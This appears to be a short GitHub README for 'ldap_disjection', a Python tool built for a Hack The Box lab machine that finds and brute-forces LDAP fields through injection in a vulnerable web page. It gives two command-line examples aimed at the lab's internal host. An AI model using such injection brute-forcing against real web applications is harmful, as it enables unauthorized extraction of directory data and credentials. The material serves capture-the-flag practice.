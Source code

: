 # ldap_disjection
Discover and BruteForce LDAP Fields From Vulnerable Web App.

This Tool has been created for [HTB Analysis Machine](https://app.hackthebox.com/machines/584)

Examples:

- Scan for valid fields
```
python3 ldap_disjection.py -m discover -u 'http://internal.analysis.htb/users/list.php' -ps 'name' -cn "CONTACT_" -G -s 0.2 -r '(<tr>.*</tr>)'
```

- BruteForce field value:
```
python3 ldap_disjection.py -m brutforce -u 'http://internal.analysis.htb/users/list.php' -ps 'name' -pv 'technician' -pb 'FIELD_NAME' -c technician -G -s '0.2' -l 2 -r '(<tr>.*</tr>)'
```